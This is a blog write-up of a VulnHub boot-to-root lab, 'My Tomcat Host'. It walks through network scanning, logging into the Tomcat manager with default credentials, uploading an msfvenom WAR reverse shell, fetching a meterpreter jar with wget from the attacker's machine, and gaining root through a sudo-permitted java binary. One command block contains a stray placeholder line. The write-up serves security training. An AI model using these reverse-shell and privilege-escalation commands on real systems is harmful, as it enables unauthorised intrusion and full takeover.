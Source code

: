 ```yaml
---
published: true
layout: post
title: Tomcat Host
category: writeup
author: F3dai
image: https://imgur.com/e78J3dy.png
---
```


Welcome to "My Tomcat Host". This boot to root VM is designed for testing your basic enumeration skills and concepts.

**Url**: [Tomcat Host 1 VulnHub](https://www.vulnhub.com/entry/my-tomcat-host-1,457/) 

**Difficulty**: Easy/Beginner Level 

**Author**: Akanksha Sachin Verma 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1
some more code for example</pre>
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.110</pre>

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my browser reveals an Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

<pre>192.168.56.110:8080/manager/html</pre>

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local address.

<pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war</pre>

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

<pre>nc -nvlp 4444</pre>

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

<pre>id
python -c 'import pty;pty.spawn("/bin/bash")'</pre>

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo privileges to see how we can start escalating privileges:

<pre>sudo -l</pre>
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

<pre>msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar</pre>

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

<pre>service apache2 start</pre>

Go to the temp directory on the victim's machine and transfer the payload over.

<pre>cd /tmp
wget http://192.168.56.101/fedai.jar</pre>

![wget](https://imgur.com/PmLq6W1.png)

### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

<pre>msfconsole
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lport 5555
run</pre>

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

<pre>sudo java -jar fedai.jar</pre>

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)
